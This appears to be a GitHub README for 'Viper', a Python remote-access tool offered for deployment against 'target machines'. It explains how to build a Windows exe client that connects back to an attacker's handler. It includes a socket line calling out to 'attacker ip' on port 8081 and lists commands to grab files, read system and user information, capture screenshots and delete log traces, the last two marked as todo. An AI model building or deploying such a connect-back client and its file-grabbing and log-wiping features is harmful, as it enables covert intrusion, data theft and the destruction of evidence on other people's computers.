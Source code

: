 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

VIPER

"""
This is viper and designed to control remote fangs that get deployed on computers in defense of exploitation frameworks!
Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensible actions.
This also has team server capabilities *Still working out bugs

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops


Requirements

viper has been tested on kali 2.0

*****The installer.sh will do this for you***

usage
chmod +x installer.sh
./installer.sh
The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 
You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick help
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

libraries installed
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

to start the viper console:
Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

usage:

start the handler first and then start the client on the target machine

viper main commands:


[+] handler ========= > "starts the viper server and waits for a call back" 

[*] client2exe ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


viper connection commands:
use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request

